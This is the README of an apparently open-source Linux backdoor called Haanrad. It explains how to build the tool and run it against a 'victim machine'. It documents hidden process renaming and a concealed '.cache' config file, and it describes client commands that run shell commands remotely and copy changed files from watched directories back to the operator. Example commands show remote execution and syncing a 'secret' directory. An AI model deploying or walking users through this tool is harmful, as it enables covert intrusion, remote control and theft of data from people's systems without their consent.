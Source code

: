 #Haanrad
<b> FULL DISCLOSURE: THIS THING CAN DO BAD THINGS. UNLESS UR A BADMAN OR BATMAN, ITS STRONGLY ADVISED NOT TO BE USED </b>

Haanrad is a backdoor exfiltration system that allows a user to covertly exploit the installed system
haanrad is deployed to. Haanrad can be configured in numerous different ways and is designed to be
tolerant in most systems and adjust to the networks behavior as perceived by the victim machine in order
to "blend in". See the `Features` Section for details on functionality

#Setup

##Prerequisits
You must have cmake and gcc installed along with `libdnet` and `libpcap` development libraries installed in order to compile
Haanrad and the client. Note that Haanrad and the client will only work on the Linux based kernel and possibly some
versions of Mac or BSD

##Installation
Execute the following commands

1. clone the project and `cd` into the project root
2. Execute the following command `cmake .`
3. Then execute `make` if you are on Linux. This will generate all required programs in the project root under the `/bin` folder

##Usage
Run Haanrad with the following command from within the `/bin` folder
```
./haanrad -c <ipofclient> [--DEBUG] [--DOF] [--HINT] [-t <timetick>] [-h <historylength>]
```
The parameters are as follows:

| Parameter | Purpose                                                                                | Required ? | Config File Support ? | Default                          | Example      |
| --------- | -------------------------------------------------------------------------------------- | ---------- | --------------------- | -------------------------------- | ------------ |
| -c        | Give the dot notation IP of the client                                                 | Yes        | Yes                   | N/A                              | -c 127.0.0.1 |
| -t        | Give time cycles of Haanrad in milliseconds, lower values will make Haanrad run faster | No         | Yes                   | 100                              | -t 450       |
| -h        | Set History Length of how many packet Haanrad will store                               | No         | Yes                   | 100                              | -h 200       |
| --DEBUG   | Get Debug Console Out                                                                  | No         | No                    | Disabled                         | ---DEBUG     |
| --DOF     | Set Haanrad to use default name on rename failure                                      | No         | No                    | Previous name is used on failure | --DOF        |
| --HINT    | Append `-bd` to the process name chosen for Haanrad                                    | No         | No                    | Not Appended                     | --HINT       |
 
Run the client with the following command from within the `/bin` folder
```
./client [--DEBUG]`
```
The parameters are as follows:

| Parameter | Purpose                             | Required ? | Config File Support ? | Default  | Example |
| --------- | ----------------------------------- | ---------- | --------------------- | -------- | ------- |
| --DEBUG   | Print Debug Information To Console  | No         | No                    | Disabled | --DEBUG |

###Config File Support
Haanrad supports some of the specified options to be declared within a configuration file. There is a very strict orientation
in how this file must be written in order to be picked up by Haanrad. The configuration file is only read at startup
and is never referred to afterwards. In order for the config file to be detected by haanrad it must be located in the same
location as the `haanrad` binary and named `.cache`. Settings are entered in the format of <key>=<value> with the key
being the supported flag listed above without the preceding dash (`-`). An example configuration file might look like this
```
c=127.0.0.1
t=150
```
Note there is no spacing at the beginning or end of the file, and no comments are accepted within the file. Invalid formatting
of the file may cause Haanrad to even crash and not load at all

 
###Interactive Mode
Upon Haanrad connecting to the client, interactive mode will enable. Making a number of commands available on the client. Each command has two layers,
a client specific command, and a haanrad specific command, followed then by the haanrad command parameter. The command structure is as follows:
```
<clientcommand> <haanradcommand> <haanradparam>
```
The following client commands are available:

| Command | Purpose                          |
| ------- | -------------------------------- |
| send    | Send A Command To Haanrad        |
| check   | Check For Responses From Haanrad |

The `check` command in the above table does not have any haanrad commands or haanrad params excepted as check is used specificaly for checking
for any new responses from Haanrad. `send` though has several options available. They are:

| Command | Purpose                                      | Parameter                          |
| ------- | -------------------------------------------- | ---------------------------------- |
| hexec   | Execute a terminal command on Haanrad        | Command to be executed             |
| hlisten | Create/Remove a listener of a directory      | Dir to Create/Remove listenr       |
| hsync   | Create/Remove a sync listener of a directory | Dir to Create/Remove sync listener |

Note the difference between the `hlisten` and `hsync` commands. Executing an `hlisten` will cause Haanrad to setup an inotify listener
in the parameter passed directroy. When an event occurs in this directory, a response will be sent from Haanrad back to the client. Using
`hlisten` this is then all that will happen. The client will simply be notified that an event occurred. If the `hsync` command is used though,
the client will be both notified of the event occurring and will also be sent a copy of the changed file. 

During an `hsync`, the client will download and write the file to the local `sync` directory, that will be generated if it does not previous exist. 
The `sync` directory is orgnaized to emulate the root path of the victim machine thus any synced files will have their folder structure recreated 
within the `sync` folder to emulate that of the victim machine.

Additionaly to the above mentioned commands a number of house keeping commands are available during response failure from Haanrad. The below can be
useful when a transfer fails and the client's buffer is left in an unstable state. Note these command are independent to anything previously
mentioned and do not run under the `send` or `check` client commands. See the examples for clarification.

| Command  | Purpose                                                  |
| -------- | -------------------------------------------------------- |
| bufcheck | Prints the current content of the Client receive buffer  |
| bufclear | Clears the current contents of the Client receive buffer |

Some command examples:
```
# Execute ls on the victim machine
send hexec ls

# Setup a sync listener for directory /haanrad/secret/info
send hsync /haanrad/secret/info

#Clear the client buffer
bufclear

#Print the client buffer
bufcheck
```